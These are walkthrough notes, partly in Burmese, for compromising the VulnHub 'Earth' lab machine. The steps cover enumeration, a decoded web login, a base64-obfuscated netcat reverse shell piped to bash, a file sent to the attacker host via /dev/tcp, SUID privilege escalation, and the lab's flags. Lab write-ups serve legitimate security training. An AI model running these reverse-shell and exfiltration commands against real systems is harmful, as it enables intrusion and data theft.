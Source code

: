 ```yaml
---
{"tags":["getfullshell","vulnhub","walkthrought"],"dg-publish":true,"Auther":"y3kh","permalink":"/exploit-from-kali/earth-vulnhub/","dgPassFrontmatter":true,"noteIcon":""}
---
```


sudo nmap -sC -sV -oN earth 192.168.90.2                                                                                                                            
Nmap scan report for 192.168.90.2
Host is up (0.0015s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.6 (protocol 2.0)
| ssh-hostkey: 
|   256 5b:2c:3f:dc:8b:76:e9:21:7b:d0:56:24:df:be:e9:a8 (ECDSA)
|_  256 b0:3c:72:3b:72:21:26:ce:3a:84:e8:41:ec:c8:f8:41 (ED25519)
80/tcp  open  http     Apache httpd 2.4.51 ((Fedora) OpenSSL/1.1.1l mod_wsgi/4.7.1 Python/3.9)
|_http-server-header: Apache/2.4.51 (Fedora) OpenSSL/1.1.1l mod_wsgi/4.7.1 Python/3.9
|_http-title: Bad Request (400)
443/tcp open  ssl/http Apache httpd 2.4.51 ((Fedora) OpenSSL/1.1.1l mod_wsgi/4.7.1 Python/3.9)
| tls-alpn: 
|_  http/1.1
|_ssl-date: TLS randomness does not represent time
|_http-title: Bad Request (400)
| ssl-cert: Subject: commonName=earth.local/stateOrProvinceName=Space
| Subject Alternative Name: DNS:earth.local, DNS:terratest.earth.local
| Not valid before: 2021-10-12T23:26:31
|_Not valid after:  2031-10-10T23:26:31
|_http-server-header: Apache/2.4.51 (Fedora) OpenSSL/1.1.1l mod_wsgi/4.7.1 Python/3.9
```
sudo nano /etc/hosts
```
##### add this line
192.168.90.2  earth.local  terratest.earth.local
> mozilla > earth.local > sent message > encript code တစ်ခု ကျလာလိမ့်မယ်
>  ဥပမာ : 050c53070e470401097e79
```
gobuster dir -u http://earth.local/ -w /usr/share/wordlists/dirb/common.txt 
```

	  starting gobuster in directory enumeration mode
	/admin                (Status: 301) [Size: 0] [--> /admin/]
	/cgi-bin/             (Status: 403) [Size: 199]
	Progress: 4614 / 4615 (99.98%)
	Finished

earth.local/admin
https://terratest.earth.local/
> try view page source nothing found
```
gobuster dir -u https://terratest.earth.local/ -k -w /usr/share/wordlists/dirb/common.txt
```
*https ဖြစ်လို့ -k သုံးရတယ်*
/index.html           (Status: 200) [Size: 26]
/robots.txt            (Status: 200) [Size: 26]

>mozilla
>https://terratest.earth.local/testingnotes.txt
>https://terratest.earth.local/testdata.txt
>earth.localhost
*cyberchief use*
![earth-cyberchief.png|400](/img/user/Images%20All/earth-cyberchief.png)

user : terra
pass : earthclimatechangebad4humans
*run command*
whoami
ls /var/earth_web 
cat /var/earth_web/user_flag.txt
flag : [user_flag_3353b67d6437f07ba7d34afd7d2fc27d] 
reverse shell online base 64 change ပါ
echo 'bmMgLWUgL2Jpbi9iYXNoIDE5Mi4xNjguMjAwLjcgNDQ0NAo' | base64 -d  | bash

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/tmp
export TERM=xterm-256color
alias ll='ls -lsaht --color=auto'
Ctrl + Z [Background Process]
stty raw -echo ; fg ; reset
stty columns 200 rows 200
```
### privilege Escalation

find / -perm -u=s 2>/dev/null
file /usr/bin/reset_root
nc -lvnp 3333 > reset_root
cat /usr/bin/reset_root > /dev/tcp/192.168.200.7/3333
apt install ltrace
ltrace ./reset_root
touch kHgTFI5G
touch Zw7bV9U5
touch kcM0Wewe
reset_root
su root
password : Earth
flag : root_flag_b0da9554d29db2117b02aa8b66ec492e




<iframe width="1280" height="720" src="https://www.youtube.com/embed/e9de7AK0i2s?si=A1mMNAb9oeidOksa" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" allowfullscreen></iframe>
